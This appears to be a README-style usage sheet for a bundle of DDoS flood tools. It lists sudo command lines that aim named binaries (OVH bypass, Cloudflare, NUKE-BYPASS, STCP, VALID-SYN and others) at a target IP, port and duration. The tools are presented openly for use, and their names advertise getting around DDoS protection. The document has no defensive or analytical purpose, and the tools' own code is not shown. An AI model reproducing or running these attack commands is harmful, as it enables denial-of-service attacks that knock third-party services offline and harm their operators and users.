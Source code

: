 How to use :

SSA : sudo ./ssa (ip)

ETC : sudo ./etc (ip) (port)

OVH : sudo ./ovh %ip %port 9999 0 %time

OVH-V2 : sudo ./ovhbypass2 %ip %port %time udp

STD : sudo ./STD-NOSPOOF %ip %port

STCP : sudo ./STCP %ip %port 10 -1 %time ack

HEX : sudo ./HEX OVH %ip %port 300

NUKE-BYPASS : sudo ./HiperOVH %ip %port

CLOUDFLARE : sudo ./cloudflare %ip 10 -1 300

ETHERA : sudo ./ETHERA %ip %port

CPU-SURGE : sudo ./CPU-SURGE TCP %ip% %port% 300

VALID-SYN : sudo ./WRA %ip% %port% 10 -1 300
